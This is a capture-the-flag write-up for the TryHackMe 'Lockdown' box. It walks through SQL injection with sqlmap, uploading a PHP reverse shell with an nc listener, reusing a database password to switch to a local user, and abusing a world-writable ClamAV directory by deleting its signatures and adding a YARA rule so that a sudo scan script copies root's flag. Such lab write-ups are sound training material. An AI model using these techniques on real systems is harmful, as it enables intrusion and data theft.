#writeup #tryhackme #linux

# Lockdown

> **Platform:** TryHackMe
> **Difficulty:** Medium
> **OS:** Linux
> **Target IP:** `10.112.191.9`
> **Date:** 2026-11-27

## Introduction

Welcome to my writeup for TryHackMe's **Lockdown**. This box chains a blind/error-based SQL injection on a login form into an authenticated arbitrary file upload for the initial foothold, then finishes with a creative privilege escalation abusing a misconfigured, world-writable ClamAV signature directory and a `sudo`-permitted scan script.

### Table of Contents
- [Scanning](#scanning)
- [Enumeration](#enumeration)
- [Gaining a Foothold](#gaining-a-foothold)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

---

## Scanning

Starting with an `nmap` scan to discover which ports are open.

```bash
sudo nmap -A -O -sC -sV 10.112.191.9 -oN nmap.scan
```



Only two ports are open: `22` (SSH) and `80` (HTTP). With SSH giving no obvious entry point, I focused on enumerating the website on port 80.

**Open ports:**

| Port | Service | Version              |
|------|---------|-----------------------|
| 22   | ssh     | OpenSSH               |
| 80   | http    | Apache 2.4.41 (Ubuntu) |

---

## Enumeration

With only a web server to go on, enumeration centered entirely on the site.

### Web Enumeration

Browsing to the target IP directly didn't load the site — it redirected to its virtual host, `contacttracer.thm`, so I added that to `/etc/hosts` first.



The site is a simple contact-tracing app, and the public-facing form didn't do anything useful with test input. I instead went after the `admin` link shown on the page.



Submitting `admin` / `test` as a test login while watching the request in Caido returned a very informative error:



```json
{"status":"incorrect","last_qry":"SELECT * from users where username = 'admin' OR 1=1;--' and password = md5('test') "}
```

The app helpfully echoes its actual query back in the response, confirming the username field is concatenated straight into the SQL statement with no sanitization — a clear SQL injection point. Rather than build the injection by hand, I saved the raw request to a file and handed it to `sqlmap`:

```bash
sqlmap -r req.txt --dump --batch --level=5 --risk=3
```



`sqlmap` recovered the admin account's MD5 password hash, which I then cracked using CrackStation.



With valid admin credentials in hand, I could log back into the admin panel.

---

## Gaining a Foothold



Once logged in as admin, I explored the panel and found a profile picture upload feature with no extension filtering — meaning a `.php` file uploads just fine.


Opening the system settings page:



I clicked **Browse**, selected a `pentestMonkey` PHP reverse shell, and clicked **Update**. After starting a listener:

```bash
nc -lnvp <your-port>
```

...I logged out, navigated to `http://contacttracer.thm/login.php` to trigger the uploaded shell, and caught a connection back as `www-data`.



Checking `/home` showed four users: `cyrus`, `maxine`, `ssm-user`, and `ubuntu`. `ssm-user` and `ubuntu` had nothing of interest in their home directories, so I focused on `cyrus` and `maxine`.

Going back to the web root at `/var/www/html`, I looked for leftover credentials and found a `config.php` referencing a `DBConnection.php` file, which contained a database username and password.



That same password turned out to be reused by the local user `cyrus` on the box:



```bash
su cyrus
```

**User flag:**

```bash
cat /home/cyrus/user.txt
```



---

## Privilege Escalation

### Enumeration

As usual, the first thing to check as a new user is `sudo -l`:



```
User cyrus may run the following commands on ip-10-x-x-x:
    (root) /opt/scan/scan.sh
```

```bash
cat /opt/scan/scan.sh
```

```bash
#!/bin/bash

read -p "Enter path: " TARGET

if [[ -e "$TARGET" && -r "$TARGET" ]]
  then
    /usr/bin/clamscan "$TARGET" --copy=/home/cyrus/quarantine
    /bin/chown -R cyrus:cyrus /home/cyrus/quarantine
  else
    echo "Invalid or inaccessible path."
fi
```

The script prompts for a path, confirms it exists and is readable, then runs `clamscan` against it. Crucially, `--copy=DIRECTORY` only copies files that ClamAV flags as **infected** — and whatever lands in `/home/cyrus/quarantine` gets `chown`'d to `cyrus`.

Since this runs as root via `sudo`, the idea became: get `clamscan` to treat `/root/root.txt` as "infected" so the script copies it out of root's home and hands it to me.

```bash
find / -name "clam*" 2>/dev/null
```



Checking ClamAV's signature directory revealed the key misconfiguration:

```bash
ls -la /var/lib/clamav
```

```
total 367628
drwxrwxrwx  2 clamav clamav      4096 Nov 27 16:41 .
drwxr-xr-x 52 root   root        4096 Jul  5  2025 ..
-rw-r--r--  1 clamav clamav    284179 Jul  5  2025 bytecode.cvd
-rw-r--r--  1 clamav clamav 205647360 Jul 10  2025 daily.cld
-rw-r--r--  1 clamav clamav        69 Apr 26  2025 freshclam.dat
-rw-r--r--  1 clamav clamav 170479789 Jul  5  2025 main.cvd
-rw-r--r--  1 root   root          46 Jul 23  2021 main.hdb   <-- custom signature file
-rw-r--r--  1 root   root          69 May 11  2021 mirrors.dat
```

The directory itself is `drwxrwxrwx` with no sticky bit, meaning **any user can add or delete files inside it**, regardless of who owns them. `clamscan` loads every valid database file from this directory by default when no `-d`/`--database` flag is given — exactly how `scan.sh` calls it — so I can control what counts as "malware" just by controlling what's in `/var/lib/clamav`.



I wrote a minimal custom YARA rule that flags anything containing the string `THM`:

```bash
cat > /var/lib/clamav/flag.yara <<'EOF'
rule THM_Test
{
    strings:
        $marker = "THM"

    condition:
        $marker
}
EOF
```

Since the directory is world-writable, I could also delete the official signature files to keep load times fast and avoid any interference from the real databases:

```bash
rm /var/lib/clamav/main.cvd /var/lib/clamav/daily.cld /var/lib/clamav/bytecode.cvd
```

I confirmed the custom rule worked on its own before touching root's flag:

```bash
clamscan -d flag.yara --no-summary flag.yara
```

```
/var/lib/clamav/flag.yara: YARA.THM_Test.UNOFFICIAL FOUND
```

### Exploitation

With only `flag.yara` left in the default signature directory, any file containing `THM` will now be flagged as infected by a default `clamscan` run — which is exactly what `scan.sh` does.

```bash
sudo /opt/scan/scan.sh
```

```
Enter path: /root/root.txt
```

Since `root.txt`'s content matched the `THM` marker, ClamAV flagged it as infected, `--copy` dropped it into `/home/cyrus/quarantine`, and the script's `chown` handed it to me:





**Root flag:**

```bash
cat /home/cyrus/quarantine/root.txt
```

---

## Conclusion

What I learned/practiced in this room:

- How an application echoing its raw SQL query in an error response can turn a hunch into a confirmed, directly exploitable SQL injection — and how `sqlmap` speeds up exploitation once the point of injection is confirmed.
- Unrestricted file upload functionality (no extension/MIME validation) on an authenticated admin feature is often a direct path to remote code execution.
- Password reuse between an application's database credentials and a local Linux account is a common and valuable pivot after gaining initial access.
- A `sudo`-permitted binary is only as safe as everything it depends on: `scan.sh` itself was fine, but a world-writable signature directory for the security tool it called (`clamscan`) let me redefine what counted as "infected" and turn an antivirus scanner into a file-exfiltration primitive against root's own files.

Thank you for reading!
